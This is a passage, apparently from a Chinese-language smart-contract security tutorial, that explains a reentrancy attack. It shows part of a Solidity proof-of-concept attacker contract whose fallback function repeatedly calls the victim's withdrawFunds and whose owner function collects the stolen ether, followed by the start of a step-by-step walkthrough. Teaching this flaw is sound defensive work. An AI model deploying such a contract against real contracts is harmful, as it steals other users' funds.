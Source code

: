   ```{.solidity}
    //先存入一笔以太币
    function depositEther() public payable {
          require(msg.value >= 1 ether);
          reInstance.depositFunds.value(msg.value)();
    }
    //取出盗取的以太币
    function getEther() public onlyOwner {
          msg.sender.transfer(address(this).balance);
    }
    //调用withdrawFunds,发起攻击 
      function withdrawFunds() public onlyOwner {
          reInstance.withdrawFunds(1 ether);
      }
    //回退函数，进行重入攻击
      function() external payable {
          if(address(reInstance).balance >= 1 ether) {
              reInstance.withdrawFunds(1 ether);
          }
      }
  }
  ```

  ![漏洞利用示例](../img/reentrancy.gif)

PS:注意此处由于重入攻击造成了balances\[msg.sender\]溢出，强烈推荐所有数学运算都使用SafeMath进行。

分析该合约是如何进行重入攻击的：

1、假设普通用户向原合约(Reentrancy.sol)存入15 ether；

2、攻击者部署攻击合约(POC.sol)，并调用setInstance()指向原合约部署地址；
